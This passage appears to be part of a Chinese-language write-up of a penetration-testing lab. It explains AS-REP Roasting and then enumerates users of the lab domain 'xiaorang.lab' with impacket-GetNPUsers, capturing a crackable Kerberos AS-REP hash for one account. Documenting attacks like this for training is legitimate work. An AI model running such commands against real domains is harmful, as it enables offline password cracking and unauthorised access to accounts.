 ![img](img/image_20240712-161249.png)

## 172.22.15.13 AS-REP Roasting

:::info AS-REP Roasting

AS-REP Roasting 是一种对用户账号进行离线爆破的攻击方式。但是该攻击方式利用比较局限，因为其需要用户账号设置 "Do not require Kerberos preauthentication(不需要 kerberos 预身份验证)" 。而该属性默认是没有勾选上的。预身份验证是 Kerberos 身份验证的第一步 (AS_REQ & AS_REP)，它的主要作用是防止密码脱机爆破。默认情况下，预身份验证是开启的，KDC 会记录密码错误次数，防止在线爆破。

当关闭了预身份验证后，攻击者可以使用指定用户去请求票据，此时域控不会作任何验证就将 TGT 票据 和 该用户 Hash 加密的 Session Key 返回。因此，攻击者就可以对获取到的 用户 Hash 加密的 Session Key 进行离线破解，如果破解成功，就能得到该指定用户的密码明文。

AS-REP Roasting 攻击条件

域用户设置了 "Do not require Kerberos preauthentication(不需要 kerberos 预身份验证)"

需要一台可与 KDC 进行通信的主机 / 用户

:::

将从数据库中得到的用户数据，提取出来邮箱信息

```plaintext
lixiuying@xiaorang.lab
lixiaoliang@xiaorang.lab
zhangyi@xiaorang.lab
jiaxiaoliang@xiaorang.lab
zhangli@xiaorang.lab
zhangwei@xiaorang.lab
liuqiang@xiaorang.lab
wangfang@xiaorang.lab
wangwei@xiaorang.lab
wanglihong@xiaorang.lab
huachunmei@xiaorang.lab
wanghao@xiaorang.lab
zhangxinyu@xiaorang.lab
huzhigang@xiaorang.lab
lihongxia@xiaorang.lab
wangyulan@xiaorang.lab
chenjianhua@xiaorang.lab
```

另存为 `user-emails.txt` 文件之后，执行爆破

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains4 -q impacket-GetNPUsers -dc-ip 172.22.15.13 xiaorang.lab/ -usersfile user-emails.txt
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

$krb5asrep$23$lixiuying@xiaorang.lab@XIAORANG.LAB:5d6328fca1544abbd31c14a61fd2b361$1dcc345e2b2bba51a51610e9d7e2da9c4f164cb25d33939fbe0d095b0e811dfa68bbbb4bf28c73c53de3b941fb961b95867d0834d09a7ae61c73a7a548ddd2ab63cb06a4f3aa978e879f1790c4b1a2d023877dcfbcb7babc820ad34d6c212ef81ab5a1f327e6a201ed696093d4a7d86bb743a52ff2f4b398347b95918918e7ab466db177de4b2904d4426e92725a5de10eb20c287093aef9fc8f6e7de761a639b6901cfd88750cd4243b7c4ab990e7939b0e8d3db6a16f20fd9fa187c061f67330549d0f2f4576b3e47c43b1b06441d8aae6b4e9fb4c5128bba6f0525df4466a4ae689de516da594307dffd2
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```